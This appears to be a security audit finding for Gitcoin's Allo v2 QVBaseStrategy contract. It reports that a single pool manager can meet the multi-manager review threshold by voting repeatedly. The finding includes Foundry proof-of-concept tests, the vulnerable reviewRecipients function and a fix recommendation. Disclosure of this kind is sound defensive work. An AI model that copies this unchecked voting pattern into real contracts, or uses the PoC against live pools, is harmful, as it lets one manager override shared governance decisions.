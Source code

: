 Tame Grey Wombat

high

# Bypass reviewThreshold check in QVBaseStrategy.sol
## Summary
The `reviewThreshold` is the number of votes required to review a recipient status. There is no check that `Pool Manager` has already voted to change status. If strategy have two `Pool Managers` and `reviewThreshold` is equal 2, than two different managers must vote, but one manager can vote twice and change recipient status. 
## Vulnerability Detail
To change user status, `Pool Manager` must call `reviewRecipients`. The status changes if the required number of votes is collected. But attacker call function `reviewRecipients` several times (`test_reviewRecipientsWithTheSamePoolManager_1`) or attacker can pass the same recipient several times in array(`test_reviewRecipientsWithTheSamePoolManager_2`).
Proof of Concept(Add this tests to `test/foundry/strategies/QVBaseStrategy.t.sol`):
```solidity
    function test_reviewRecipientsWithTheSamePoolManager_1() public {
        address recipientId = __register_recipient();

        address[] memory recipientIds = new address[](2);
        recipientIds[0] = recipientId;
        recipientIds[1] = recipientId;
        IStrategy.Status[] memory Statuses = new IStrategy.Status[](2);
        Statuses[0] = IStrategy.Status.Rejected;
        Statuses[1] = IStrategy.Status.Rejected;

        vm.startPrank(pool_manager1());
        qvStrategy().reviewRecipients(recipientIds, Statuses);

        QVBaseStrategy.Recipient memory recipient = qvStrategy().getRecipient(recipientId);
        assertEq(uint8(IStrategy.Status.Rejected), uint8(recipient.recipientStatus));
    }

   function test_reviewRecipientsWithTheSamePoolManager_2() public {
        address recipientId = __register_recipient();

        address[] memory recipientIds = new address[](1);
        recipientIds[0] = recipientId;
        IStrategy.Status[] memory Statuses = new IStrategy.Status[](1);
        Statuses[0] = IStrategy.Status.Rejected;

        vm.startPrank(pool_manager1());
        qvStrategy().reviewRecipients(recipientIds, Statuses);

        vm.expectEmit(true, false, false, false);
        emit RecipientStatusUpdated(recipientId, IStrategy.Status.Rejected, pool_admin());

        qvStrategy().reviewRecipients(recipientIds, Statuses);

        QVBaseStrategy.Recipient memory recipient = qvStrategy().getRecipient(recipientId);
        assertEq(uint8(IStrategy.Status.Rejected), uint8(recipient.recipientStatus));
    }
```
## Impact
The manager can change the user's status without the participation of other pool managers. 
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L254
```solidit
function reviewRecipients(address[] calldata _recipientIds, Status[] calldata _recipientStatuses)
        external
        virtual
        onlyPoolManager(msg.sender)
        onlyActiveRegistration
    {
        // make sure the arrays are the same length
        uint256 recipientLength = _recipientIds.length;
        if (recipientLength != _recipientStatuses.length) revert INVALID();

        for (uint256 i; i < recipientLength;) {
            Status recipientStatus = _recipientStatuses[i];
            address recipientId = _recipientIds[i];

            // if the status is none or appealed then revert
            if (recipientStatus == Status.None || recipientStatus == Status.Appealed) {
                revert RECIPIENT_ERROR(recipientId);
            }

            reviewsByStatus[recipientId][recipientStatus]++;

            if (reviewsByStatus[recipientId][recipientStatus] >= reviewThreshold) {
                Recipient storage recipient = recipients[recipientId];
                recipient.recipientStatus = recipientStatus;

                emit RecipientStatusUpdated(recipientId, recipientStatus, address(0));
            }

            emit Reviewed(recipientId, recipientStatus, msg.sender);

            unchecked {
                ++i;
            }
        }
    }
```
## Tool used

Manual Review

## Recommendation
It is recommended to save that the pool manager has already voted to change the status and check whether he does it again. 